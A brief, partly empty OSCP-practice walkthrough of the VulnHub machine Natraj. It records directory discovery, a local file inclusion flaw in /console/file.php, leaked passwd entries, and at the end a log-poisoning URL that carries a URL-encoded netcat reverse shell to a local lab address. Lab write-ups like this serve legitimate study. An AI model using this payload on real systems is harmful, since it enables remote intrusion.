

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/VulnHub/Natraj/index.html · generator: mkdocs

# Natraj

![[Pasted image 20220520210413.png]]

```
192.168.1.198
```


## Port scan

```

```

dirbuster found /console/ which has file.php in it.

/console/file.php has an LFI vulnerability.

![[Pasted image 20220527231815.png]]

two of the users have interactive bash at login

```
root:x:0:0:root:/root:/bin/bash
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

put the users into a file called users.txt

```bash
hydra -l
```

```
http://192.168.1.198/console/file.php?file=../../../../../../../var/log/auth.log&cmd=rm%20/tmp/f;mkfifo%20/tmp/f;%20cat%20/tmp/f%20|%20/bin/sh%20-i%202%3E&1%20|%20nc%20192.168.1.112%209999%20%3E%20/tmp/f
```
